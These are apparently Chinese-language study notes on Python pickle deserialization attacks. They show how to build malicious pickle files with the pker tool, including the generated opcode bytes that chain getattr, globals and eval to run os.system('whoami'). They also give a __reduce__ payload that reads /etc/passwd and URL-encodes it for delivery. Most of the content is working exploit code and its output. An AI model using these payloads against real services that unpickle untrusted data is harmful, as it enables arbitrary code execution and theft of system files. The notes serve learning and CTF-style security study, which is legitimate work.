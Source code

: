 - > [参考](https://xz.aliyun.com/t/7012)
- # 构造恶意Pickle文件
	- 某些特定的 Python 代码可以直接被转成 Pickle
	- 可以：
		- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
		- 函数调用
		- 类型字面量构造
		- list 和 dict 成员修改
		- 对象成员变量修改
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
	- ```shell
	  $ cat test/code_breaking
	  getattr = GLOBAL('builtins', 'getattr')
	  dict = GLOBAL('builtins', 'dict')
	  dict_get = getattr(dict, 'get')
	  globals = GLOBAL('builtins', 'globals')
	  builtins = globals()
	  __builtins__ = dict_get(builtins, '__builtins__')
	  eval = getattr(__builtins__, 'eval')
	  eval('__import__("os").system("whoami")')
	  return
	  
	  $ python3 pker.py < test/code_breaking
	  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
	  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print a
	  ```
-